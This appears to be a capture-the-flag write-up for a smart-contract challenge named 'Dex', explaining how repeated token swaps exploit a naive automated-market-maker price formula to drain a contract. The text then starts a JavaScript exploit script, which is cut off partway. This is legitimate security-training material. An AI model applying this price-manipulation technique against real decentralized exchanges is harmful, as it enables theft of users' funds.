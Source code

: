 ```js
}
```

## Dex

`This challenge and it's second version will have the same solution basically with a little tweak. Better understand the concept`

### Challenge Description

>The goal of this level is for you to hack the basic DEX contract below and steal the funds by price manipulation.
You will start with 10 tokens of token1 and 10 of token2. The DEX contract starts with 100 of each token.
You will be successful in this level if you manage to drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.
### Analysis

The logic is faultless or is it ?  Well to be honest had to try many things here. One thing that got my attention that the equation made to calculate the swap_amount was familiar but not that much

![Dex Equation](images/17dcc969cfc52464829cb1a88231824931fda3a5b0d0b1d3d446eaf763974942.png)

A good read to understand it [Amazing Article to understand AMM](https://www.gemini.com/cryptopedia/amm-what-are-automated-market-makers).

So actually by balancing our token balance from one token to another we will manage at last to drain the contract's balance of one token's type.

### Exploitation

```js
const contractABI = artifacts.require("Dex");

// if token1.balance > token2.balance ==> token2 is more expensive because it has less tokens
// we want to trade the most expensive tokens
// knowTokenValues() ==> Distiniguishing the most expensive and cheapest token
// getSwapValues() // Basically our balance in the most expensive token
// ==============================

let contract ;
const TOKEN1_ADDRESS = "0x954aB18d300D8FFE76a2eFE7B36fcD6EF36825c7";
const TOKEN2_ADDRESS = "0xE651aD37ac31B03F7B49036248A29DC75D0093E6";
let PLAYER='PLAYER_ADDRESS'

async function getBalances(){
    const token1Balance = (await contract.balanceOf(TOKEN1_ADDRESS,contract.address)).toNumber();
    const token2Balance = (await contract.balanceOf(TOKEN2_ADDRESS,contract.address)).toNumber();
    console.log(`Current Balances for contract : A : ${token1Balance} \t B : ${token2Balance}`);
    return {token1Balance,token2Balance}
}

 function knowTokenValues({token1Balance,token2Balance}){
    return {mostExpensiveToken: token1Balance >= token2Balance ? TOKEN2_ADDRESS : TOKEN1_ADDRESS,cheapestToken:token1Balance < token2Balance ? TOKEN2_ADDRESS : TOKEN1_ADDRESS };
}

async function getSwapValues(tokensWithValues){
```